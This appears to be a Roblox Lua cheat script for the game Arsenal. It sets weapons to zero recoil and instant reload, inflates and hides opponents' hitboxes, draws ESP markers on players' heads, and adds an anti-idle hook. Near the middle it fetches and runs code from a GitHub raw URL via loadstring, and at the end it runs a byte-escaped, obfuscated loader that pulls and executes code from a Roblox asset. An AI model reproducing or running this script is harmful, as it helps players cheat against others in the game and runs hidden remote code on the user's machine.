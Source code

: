 -- This is version v1.2
-- This script can be laggy depends ur cpu
local vu = game:GetService("VirtualUser")
game:GetService("Players").LocalPlayer.Idled:connect(function()
    vu:Button2Down(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
    wait(1)
    vu:Button2Up(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
end)
 
game.StarterGui:SetCore("SendNotification", {
    Title = "Arsenal Script";
    Text = "Made by TvadeGaming"; 
    Duration = 9999999999999999999999999999;
})
wait(1)
game.StarterGui:SetCore("SendNotification", {
    Title = "Enjoy!";
    Text = "Please give credit!"; 
    Duration = 999999999999999999999999999999999999999999999999999999;
})




local replicationstorage = game.ReplicatedStorage

for i, v in pairs(replicationstorage.Weapons:GetDescendants()) do
   if v.Name == "Auto" then
       v.Value = true
   end
   if v.Name == "RecoilControl" then
       v.Value = 0
   end
   if v.Name == "MaxSpread" then
       v.Value = 0
   end
   if v.Name == "ReloadTime" then
      v.Value = 0
   end
   if v.Name == "FireRate" then
       v.Value = 0.07
   end
   if v.Name == "Crit" then
       v.Value = 20
   end
end
function getplrsname() for i,v in pairs(game:GetChildren()) do if v.ClassName == "Players" then return v.Name end end end local players = getplrsname() local plr = game[players].LocalPlayer coroutine.resume(coroutine.create(function() while wait(1) do coroutine.resume(coroutine.create(function() for _,v in pairs(game[players]:GetPlayers()) do if v.Name ~= plr.Name and v.Character then v.Character.RightUpperLeg.CanCollide = false v.Character.RightUpperLeg.Transparency = 10 v.Character.RightUpperLeg.Size = Vector3.new(21,21,21) v.Character.LeftUpperLeg.CanCollide = false v.Character.LeftUpperLeg.Transparency = 10 v.Character.LeftUpperLeg.Size = Vector3.new(21,21,21) v.Character.HeadHB.CanCollide = false v.Character.HeadHB.Transparency = 10 v.Character.HeadHB.Size = Vector3.new(21,21,21) v.Character.HumanoidRootPart.CanCollide = false v.Character.HumanoidRootPart.Transparency = 10 v.Character.HumanoidRootPart.Size = Vector3.new(21,21,21) end end end)) end end)) loadstring(game:HttpGet(('https://raw.githubusercontent.com/Cesare0328/my-scripts/main/arsenal%20updated%20invis.lua'),true))()
GUI_MAIN                           = Instance.new('ScreenGui', game.CoreGui)
GUI_TARGET                         = Instance.new('TextLabel', GUI_MAIN)
GUI_AIM_AT                         = Instance.new('TextLabel', GUI_MAIN)

GUI_MAIN.Name                      = ''

GUI_TARGET.Size                    = UDim2.new(0,200,0,30)
GUI_TARGET.BackgroundTransparency  = 0.5
GUI_TARGET.BackgroundColor         = BrickColor.new('Fossil')
GUI_TARGET.BorderSizePixel         = 0
GUI_TARGET.Position                = UDim2.new(0.5,-100,0,0)
GUI_TARGET.Text                    = ' '
GUI_TARGET.TextColor3              = Color3.new(1,1,1)
GUI_TARGET.TextStrokeTransparency  = 1
GUI_TARGET.TextWrapped             = true
GUI_TARGET.FontSize                = 'Size24'
GUI_TARGET.Font                    = 'SourceSansBold'

GUI_AIM_AT.Size                    = UDim2.new(0,200,0,20)
GUI_AIM_AT.BackgroundTransparency  = 0.5
GUI_AIM_AT.BackgroundColor         = BrickColor.new('Fossil')
GUI_AIM_AT.BorderSizePixel         = 0
GUI_AIM_AT.Position                = UDim2.new(0.5,-100,0,30)
GUI_AIM_AT.Text                    = ''
GUI_AIM_AT.TextColor3              = Color3.new(1,1,1)
GUI_AIM_AT.TextStrokeTransparency  = 1
GUI_AIM_AT.TextWrapped             = true
GUI_AIM_AT.FontSize                = 'Size18'
GUI_AIM_AT.Font                    = 'SourceSansBold'


--Made by Andrheyplayz_officalyt
local gui = Instance.new("BillboardGui");
gui.Name = "";
gui.AlwaysOnTop = true;
gui.LightInfluence = 0;
gui.Size = UDim2.new(1.75, 0, 1.75, 0);
local frame = Instance.new("Frame", gui);
frame.BackgroundColor3 = Color3.fromRGB(170, 0, 0);
frame.Size = UDim2.new(1, 0, 1, 0);
frame.BorderSizePixel = 4;
frame.BorderColor3 = Color3.fromRGB(0, 0, 0);
local gi = gui:Clone();
local body = frame:Clone();
body.Parent = gi;
body.BackgroundColor3 = Color3.fromRGB(0, 170, 170);

for _, v in pairs(game:GetService("Players"):GetPlayers()) do
    if v.Name ~= game:GetService("Players").LocalPlayer.Name and v.Character and v.Character:FindFirstChild("Head") then
        gui:Clone().Parent = v.Character.Head;
    end
end
local c = 1 function zigzag(X)  return math.acos(math.cos(X * math.pi)) / math.pi end game:GetService("RunService").RenderStepped:Connect(function()  if game.Workspace.Camera:FindFirstChild('Arms') then   for i,v in pairs(game.Workspace.Camera.Arms:GetDescendants()) do    if v.ClassName == 'MeshPart' then      v.Color = Color3.fromHSV(zigzag(c),1,1)     c = c + .0001    end   end  end end)
net = true -- if false = do nothing
notify = true -- set this to false if u don't want to see notiflication

loadstring("\13\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\71\101\116\79\98\106\101\99\116\115\40\34\114\98\120\97\115\115\101\116\105\100\58\47\47\55\50\53\55\55\54\49\55\56\53\34\41\91\49\93\46\83\111\117\114\99\101\41\40\41\13\10")()
